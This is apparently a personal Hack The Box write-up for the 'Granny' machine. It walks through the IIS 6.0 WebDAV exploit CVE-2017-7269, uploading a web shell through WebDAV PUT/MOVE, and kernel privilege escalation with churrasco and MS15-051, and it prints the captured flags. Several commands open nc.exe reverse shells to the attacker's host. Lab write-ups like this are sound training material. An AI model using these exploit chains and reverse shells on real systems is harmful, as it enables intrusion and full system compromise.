

# Summary


## about target

tip:  10.129.95.234

hostname: Grany

Difficulty: Easy


## about attack

+ http enum, IIS exploit to foothold, kernel enum to privesc. 
+ google search to kernel exploit,  windows-exploits-suggester, wes.py  if powershell/winpeas not able to work, usally xp/2003.
+ msf meterpeter shell to suggester and run kernel exploit, better than mannual. If exploit failed by mannual, try this.


**attack note**


```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan:
|   Server Date: Sat, 24 Sep 2022 06:29:11 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device
Running (JUST GUESSING): Microsoft Windows 2000|XP|2003|PocketPC/CE (94%), BT embedded (85%)
OS CPE: cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp1:professional cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_ce:5.0.1400 cpe:/h:btvision:btvision%2b_box
Aggressive OS guesses: Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (94%), Microsoft Windows Server 2003 SP1 (93%), Microsoft Windows Server 2003 SP1 or SP2 (93%), Microsoft Windows Server 2003 SP2 (93%), Microsoft Windows 2003 SP2 (92%), Microsoft Windows XP SP3 (91%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (90%), Microsoft Windows 2000 SP4 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows 2000 SP1 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

# http enum 
default page, nothing. 
web server: IIS 6.0

dir scan, nothing found.
gobuster dir -u http://$tip/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40 -o gobuster.log

exploit
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell

python iis-rce.py 10.129.95.234 80 10.10.14.15 4444 

got shell.

copy \\10.10.14.15\share\webshell.asp web.asp

# local enum
systeminfo, 2003 server sp2
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790

## exploit
https://www.exploit-db.com/exploits/37755
https://vk9-sec.com/microsoft-windows-server-2003-sp2-tcp-ip-ioctl-privilege-escalation-ms14-070-cve-2014-4076/
https://vk9-sec.com/microsoft-windows-x86-afd-sys-local-privilege-escalation-ms11-046-2011-1249/

sudo apt install gcc-mingw-w64
i686-w64-mingw32-gcc-win32 37755.c -o exploit.exe -lws2_32

impacket-smbserver -smb2support share ./

copy \\10.10.14.15\share\exploit.exe exploit.exe

.\exploit.exe    //failed.

enum kernel exploit
https://github.com/bitsadmin/wesng

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./windows-exploit-suggester.py --database 2022-09-24-mssb.xls --systeminfo sysinfo.txt

.\churrasco.exe -d "c:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.15 4444"

tmux 多个panel  共享 history ？

wes scan kernel
https://github.com/bitsadmin/wesng

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
windows-exploits-suggester.py 


ms15-051 
https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/37049-32.exe

37049-32.exe "whoami /all"


```


# Enumeration

## nmap scan

Heavy scan, only 80 port.

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

# Nmap 7.92 scan initiated Sat Sep 24 14:28:49 2022 as: nmap -A -O -Pn -p80 -sC -sV -T4 -oN nmap.heavy 10.129.95.234
Nmap scan report for 10.129.95.234
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan:
|   Server Date: Sat, 24 Sep 2022 06:29:11 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device
Running (JUST GUESSING): Microsoft Windows 2000|XP|2003|PocketPC/CE (94%), BT embedded (85%)
OS CPE: cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp1:professional cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_ce:5.0.1400 cpe:/h:btvision:btvision%2b_box
Aggressive OS guesses: Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (94%), Microsoft Windows Server 2003 SP1 (93%), Microsoft Windows Server 2003 SP1 or SP2 (93%), Microsoft Windows Server 2003 SP2 (93%), Microsoft Windows 2003 SP2 (92%), Microsoft Windows XP SP3 (91%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (90%), Microsoft Windows 2000 SP4 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows 2000 SP1 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   337.21 ms 10.10.14.1
2   337.22 ms 10.129.95.234

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 24 14:29:19 2022 -- 1 IP address (1 host up) scanned in 30.23 seconds
```


## http eum

dir scan, nothing useful.

``` bash
gobuster dir -u http://$tip -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 20 -o gobuster.log
```


IIS 6.0, found exploit.

https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell


# Exploitation


## IIS 6.0 CVE-2017-7269

```bash
wget https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell -O iis6-rce.py

python2 10.129.95.234 80 10.10.14.15 4444 

nc -nvlp 4444
```

got shell.


## webdav-put

nmap scan, found webdav

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan:
|   Server Date: Sat, 24 Sep 2022 06:29:11 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction

```


davtest 

```bash
sudo apt install davtest

davtest --url http://$tip
```

put method work, but not asp uploaded.


http://10.129.118.142/DavTestDir_MlRQh9Y/davtest_MlRQh9Y.html


google search: IIS 6 exploit, found 

https://www.trendmicro.com/en_us/research/17/c/iis-6-0-vulnerability-leads-code-execution.html

same exploit to IIS 6.0 CVE-2017-7269

reference [sinfulz granny walkthrough](https://medium.com/@sinfulz/hackthebox-granny-walkthrough-oscp-friendly-cf800b42ce7a)

upload asp shell.

```bash
 curl http://10.129.118.142 --upload-file cmdasp.txt

```




from nmap scan,  MOVE method is enable. Try move txt to aspx.

```bash
curl -X MOVE --header "Destination: /cmdasp.aspx" http://10.129.118.142/cmdasp.txt
```


change name to shell.txt , shell.aspx,  works fine, wired.

```bash
curl http://10.129.95.234 --upload-file shell.txt
curl -X MOVE --header "Destination: /shell.aspx" http://10.129.95.234/shell.txt
```


upload nc.exe, via smbserver

```bash
impacket-smbserver share ./

\\10.10.14.15\share\nc.exe -e cmd.exe 10.10.14.15 4444
```


check c:\inetpub\wwwroot, cmdasp.aspx moved successful.


# Privesc


## Post Enumeration

systeminfo , windows 2003 server sp2.

```bash
systeminfo, 2003 server sp2
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
```

local dir, nothing found.


search exploit.

```bash
# https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./windows-exploit-suggester.py --database 2022-09-24-mssb.xls --systeminfo sysinfo.txt

# https://github.com/bitsadmin/wesng
wes sysinfo.txt --hide "Internet Explorer" Edge
```

found a lot of exploit, not sure which one to choose.


google,  windows 2003 server privilege escalation, found 2 exploits.

https://www.exploit-db.com/exploits/37755
https://vk9-sec.com/microsoft-windows-server-2003-sp2-tcp-ip-ioctl-privilege-escalation-ms14-070-cve-2014-4076/
https://vk9-sec.com/microsoft-windows-x86-afd-sys-local-privilege-escalation-ms11-046-2011-1249/


## System-churrasco


google search: windows 2003 privilege escalation,  [reference](https://medium.com/@sinfulz/hackthebox-granny-walkthrough-oscp-friendly-cf800b42ce7a)

found churrasco,  https://www.exploit-db.com/exploits/6705

download the exe from  https://github.com/Re4son/Churrasco/blob/master/churrasco.exe

exploit 

```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe

# upload via smb
impacket-smbserver -smb2support share .

# target copy 
copy \\10.10.14.15\share\churrasco.exe churrasco.exe
copy \\10.10.14.15\share\nc.exe nc.exe
.\churrasco.exe -d "c:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.15 4444"

```

got system.


## System MS14-070

exploit with ms14-070, failed.  

exploit [reference](https://vk9-sec.com/microsoft-windows-server-2003-sp2-tcp-ip-ioctl-privilege-escalation-ms14-070-cve-2014-4076/)

```bash
searchsploit -m 37755
sudo apt install gcc-mingw-w64
i686-w64-mingw32-gcc-win32 37755.c -o exploit.exe -lws2_32

impacket-smbserver -smb2support share ./

copy \\10.10.14.15\share\exploit.exe exploit.exe

.\exploit.exe 
```

hanging; 不确定是否应为 bof exploit IIS 6  获取shell 问题 或者其他。查看 HTB 官方walkthrough 视频，msf 使用ms14_070)tcpip_ioctl 获取到system


try again with msf.  [reference](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-granny/)


## system ms15-051

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051


```bash
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip
unzip MS15-051-KB3045171.zip
copy \\10.10.14.15\share\ms15-051.exe ms15-051.exe

.\ms15-051.exe whoami
```


不确定原因。 参考这里， msf  利用成功。

https://steflan-security.com/hack-the-box-granny-walkthrough/


enum with msf meterpeter shell,  found something.


privesc  successful.


## proof

```bash

C:\Documents and Settings>type lakis\desktop\user.txt
type lakis\desktop\user.txt
700c5dc163014e22b3e408f8703f67d1
C:\Documents and Settings>type administrator\desktop\root.txt
type administrator\desktop\root.txt
aa4beed1c0584445ab463a6747bd06e9

```


